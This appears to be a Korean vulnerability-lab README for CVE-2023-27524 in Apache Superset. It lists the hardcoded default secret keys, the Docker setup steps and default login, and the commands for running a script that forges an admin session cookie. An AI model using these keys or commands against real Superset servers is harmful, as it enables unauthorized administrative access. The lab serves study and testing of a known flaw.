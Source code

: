 # Apache 슈퍼셋 하드코딩된 JWT 비밀 키로 인한 인증 우회(CVE-2023-27524)

# 환경구성 및 실행
Apache Superset 2.0.1 서버를 시작
docker compose up -d
서버가 시작되면 에서 Superset에 접속할 수 있습니다 http://your-ip:8088. 기본 로그인 정보는 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 SECRET_KEY.

- \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
- CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
- thisISaSECRET_1234(배포 템플릿)
- YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
- TEST_NON_DEV_SECRET(도커 컴포즈)
CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.

#Install dependencies
pip install -r requirements.txt

#Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크래킹하려고 시도합니다. 성공하면 user_id=1(일반적으로 관리자 사용자)로 새 세션 쿠키를 위조하고 로그인을 검증합니다.
![image](https://github.com/user-attachments/assets/9b38f0e5-8d8e-4a18-a56d-cf15b31ca64a)

쿠키 값에 이 JWT 토큰을 사용하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.
(1) 원래는 접근 불가능
![image](https://github.com/user-attachments/assets/5be4a350-0d72-4736-9690-18b45418cd12)
(2) 토큰 사용으로 접근 가능
![image](https://github.com/user-attachments/assets/1edaa0a4-091a-46f9-ab3c-5f71700de7bf)
